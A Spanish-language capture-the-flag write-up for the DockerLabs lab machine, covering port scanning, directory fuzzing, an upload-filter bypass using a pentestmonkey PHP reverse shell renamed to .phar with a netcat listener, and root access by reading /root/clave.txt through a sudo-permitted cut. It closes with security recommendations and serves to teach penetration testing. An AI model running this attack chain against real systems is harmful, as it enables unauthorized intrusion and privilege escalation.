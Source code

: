## 📄 Información General

* **Máquina**: DockerLabs
* **Objetivo**: Obtener acceso root
* **Descripción**: Análisis completo de una máquina vulnerable desplegada con Docker, enfocándose en la enumeración, explotación y escalada de privilegios.

---

## ⚙️ 1. Despliegue de la Máquina

Primero, descargamos y extraemos la máquina vulnerable:

```bash
unzip dockerlabs.zip
```

Después, la desplegamos con el script automático:

```bash
sudo bash auto_deploy.sh dockerlabs.tar
```

![Despliegue](DockerLabs/Imàgenes/Logo.png)

---

## 📶 2. Verificación de Conectividad

Hacemos ping a la IP de la máquina para asegurarnos de que está activa:

```bash
ping -c1 172.17.0.2
```

![Ping](DockerLabs/Imàgenes/Capturas.png)

---

## 🔍 3. Enumeración de Puertos con Nmap

Escaneamos todos los puertos para encontrar servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Nmap puertos](DockerLabs/Imàgenes/Capturas_1.png)

Extraemos los puertos encontrados usando un script personalizado:

```bash
extractPorts allPorts.txt
```

Luego realizamos un escaneo más profundo:

```bash
nmap -sC -sV -p 80 172.17.0.2 -oN target.txt
```

![Nmap detalle](DockerLabs/Imàgenes/Capturas_2.png)

---

## 🌐 4. Análisis Web

Accedemos al sitio en `http://172.17.0.2/`:

![Página principal](DockerLabs/Imàgenes/Capturas_4.png)

### 🔦 Fuzzing con Wfuzz

Buscamos directorios ocultos con:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://172.17.0.2/FUZZ
```

Se descubre `/uploads`.

![wfuzz](DockerLabs/Imàgenes/Capturas_6.png)

Ingresamos en:

```url
http://172.17.0.2/uploads/
```

![Uploads](DockerLabs/Imàgenes/Capturas_5.png)

### 🔎 Descubrimiento adicional con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Gobuster](DockerLabs/Imàgenes/Capturas_7.png)

Rutas identificadas:

* `/index.php`
  ![index](DockerLabs/Imàgenes/Capturas_9.png)
* `/uploads/`
  ![uploads](DockerLabs/Imàgenes/Capturas_8.png)
* `/upload.php`
  ![upload](DockerLabs/Imàgenes/Capturas_10.png)
* `/machine.php`
  ![machine](DockerLabs/Imàgenes/Capturas_11.png)

---

## 🐚 5. Carga de Web Shell (Reverse Shell)

El formulario en `/machine.php` indica que solo se aceptan archivos `.zip`. Usamos la técnica de **doble extensión**.

### 💾 Código PHP de reverse shell:

Obtenido desde:
[https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

Cambiamos la IP y el puerto y luego renombramos el archivo:

```bash
mv php-reverse-shell.php php-reverse-shell.php.zip
```

![Archivo cargado](DockerLabs/Imàgenes/Capturas_13.png)

El archivo se carga correctamente:

![Éxito](DockerLabs/Imàgenes/Capturas_14.png)
![Verificado en uploads](DockerLabs/Imàgenes/Capturas_15.png)

Pero al intentar ejecutarlo, no se activó la shell. Probamos cambiando la extensión a `.phar`:

```bash
mv php-reverse-shell.php.zip php-reverse-shell.phar
```

![Cambio a .phar](DockerLabs/Imàgenes/Capturas_19.png)

---

### 🎧 Escucha con Netcat

Antes de activar el archivo malicioso, iniciamos Netcat:

```bash
sudo nc -lvnp 443
```

![Netcat](DockerLabs/Imàgenes/Capturas_18.png)

Luego accedemos al archivo desde el navegador. ¡La shell se activa!

![Shell activa](DockerLabs/Imàgenes/Capturas_21.png)

---

## 🔐 6. Escalada de Privilegios

### 🧪 Revisión de permisos con `sudo -l`

```bash
sudo -l
```

Resultado:

```text
User www-data may run the following commands on dockerlabs:
    (ALL) NOPASSWD: /usr/bin/cut
```

Esto significa que el usuario `www-data` puede ejecutar el comando `cut` como root, sin necesidad de contraseña.

---

### 🔎 Exploración y descubrimiento de pistas

Buscamos archivos interesantes:

```bash
cd /opt/
cat nota.txt
```

Contenido:

> Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.

---

### ✂️ Explotación del permiso con `cut`

Aunque no podemos leer directamente el archivo, usamos `cut` con sudo para hacerlo como root:

```bash
sudo /usr/bin/cut -d "" -f1 /root/clave.txt
```

![Clave root](DockerLabs/Imàgenes/Capturas_22.png)

**¿Por qué funciona?**

* `cut` espera un delimitador, pero aquí se pasó uno vacío (`""`).
* Esto puede fallar en sistemas más estrictos, pero en este caso devolvió toda la línea del archivo (probablemente porque no había delimitadores).
* Así conseguimos leer **la clave root** sin permisos de lectura directos.

---

### 🔓 Acceso Root

Con la clave obtenida, accedemos como root:

```bash
su root
```

🎉 ¡Acceso total a la máquina!

---

## ✅ Conclusiones

| Fase               | Resultado                                                 |
| ------------------ | --------------------------------------------------------- |
| Escaneo de puertos | Descubierto puerto 80 (HTTP)                              |
| Análisis web       | Directorios `/uploads`, `/upload.php`, `/machine.php`     |
| Explotación        | Web shell vía `.phar` + reverse shell con Netcat          |
| Escalada           | Acceso a archivo root mediante `sudo cut` mal configurado |

---

### ⚠️ Recomendaciones de Seguridad

* **Nunca** otorgar permisos `sudo` sin contraseña a comandos como `cut`, `less`, `vim`, etc.
* Validar extensiones de archivo de forma segura (no solo por el nombre).
* Configurar entornos aislados y sin privilegios para aplicaciones web.
